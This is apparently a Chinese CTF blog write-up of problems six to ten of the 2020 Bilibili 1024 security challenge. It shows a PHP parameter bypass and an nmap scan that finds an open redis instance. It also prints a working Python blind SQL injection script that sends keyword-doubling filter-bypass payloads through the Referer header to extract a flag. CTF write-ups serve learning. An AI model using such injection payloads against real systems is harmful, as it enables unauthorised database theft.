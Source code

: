 ﻿---
title: 哔哩哔哩 1024 安全挑战赛解题思路（后篇）
date: 2020/10/24
updated: 2020/10/24
category: 
- CTF
tag: 
- CTF
- 哔哩哔哩
---
又名 bilibili 猜谜竞赛。被 W 拖来玩了。还挺有意思的。

这里是第六到第十题的题解。

<!-- more -->

## 六~十  结束亦是开始

> 结束亦是开始
> 
> 题目地址： http://45.113.201.36/blog/single.php?id=1

第七题到第十题的题面都是这一段：

> 接下来的旅程
> 
> 需要少年自己去探索啦～

另外说一下，原来的 IP 地址是 `120.92.151.189`。

## 十

打开网站。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)

……？blog？？？

转了一圈什么都没找到。在百无聊赖的时候我顺手把网站里的 single 改成了 test。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)

草。是 JSFuck。

解码似乎解不出什么。直接复制进 console 里运行一下。

```bash
var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
var str2 = "bilibili1024havefun";
console.log()
```

转换一下。

> 程序员最多的地方

那肯定是 GitHub 啊！

打开 GitHub，直接搜索 `bilibili1024havefun`。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)

成功找到了一个 php [interesting-1024/end](https://github.com/interesting-1024/end)。点开看看。

```php
<?php

//filename end.php

$bilibili = "bilibili1024havefun";

$str = intval($_GET['id']);
$reg = preg_match('/\d/is', $_GET['id']);

if(!is_numeric($_GET['id']) and $reg !== 1 and $str === 1){
	$content = file_get_contents($_GET['url']);
	
	//文件路径猜解
	if (false){
		echo "还差一点点啦～";
	}else{
		echo $flag;
	}
}else{
	echo "你想要的不在这儿～";
}
?>
```

把网址的 simple 换成 end，果不其然输出了“你想要的不在这儿～”。这个 php 里也没有什么东西。

那么就看看参数。我不是很懂 PHP，所以得搜一下是什么意思。

搜了一下，`intval()` 用来获取变量的整数值。`preg_match()` 不用猜都知道是正则。它匹配到的时候会返回一个整型返回值，`1` 是一维数组。那这个 PHP 的代码就好懂了。它要求一个变量 `id[]` （必须是一维数组），值等于 `1`（如果不传值是不会返回正确的图片的）。然后后面还会跟一个 `url=`。

那么就猜一猜 `url=` 的值是什么。那我盲猜有 flag。

curl 传过去发现不对。那继续猜。随便加个后缀什么的，比如 `.txt`，把它变成文件路径。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

拿到一张图片。存到本地的时候发现文件里带了串奇怪的字符串。估计八成跟 flag 有关。

用 `cat` 命令看一下这张图片。果然文件最后跟了串字符串。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-58-48.png)

提交到第六题……居然不对？一个个试过去发现居然是第十题的……草。

看完这个文件后我的 PowerShell 也乱码了……草（二度（

## 八

回到这个 IP 地址。

反正也没什么事情做了，用 nmap 扫一遍它开启的端口与服务。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)

扫出来一个 redis。直接用 IP 地址和端口登上去。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)

第八题结束。

## 六

超出我能力范围了。直接上源码。

```python
import requests
url = 'http://120.92.151.189/blog/single.php?id=1'
flag = ''
for i in range(1, 100):
    left = 33
    right = 128

    while right-left != 1:
        mid = mid=(left+right)//2
        payload = "0123'^if(substr((selselectect flag from flag),{i},1)>binary {mid},(selecselectt 1+~0),0) ununionion selecselectt 1,2#".format(
            i=i, 
            mid=hex(mid))
        headers = {
            'Referer': payload
        }
        r = requests.get(url=url, headers=headers)
        if len(r.text) == 5596:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print(flag)
```

运行结果如图。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)

## 七、九

仍然好奇下载下来的图片里，那个奇怪的字符串 `224a634752448def6c0ec064e49fe797`。

## 插曲

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)

还是免了吧。

## 用到的工具

- [在线unicode转中文,中文转unicode](https://www.bejson.com/convert/unicode_chinese/)
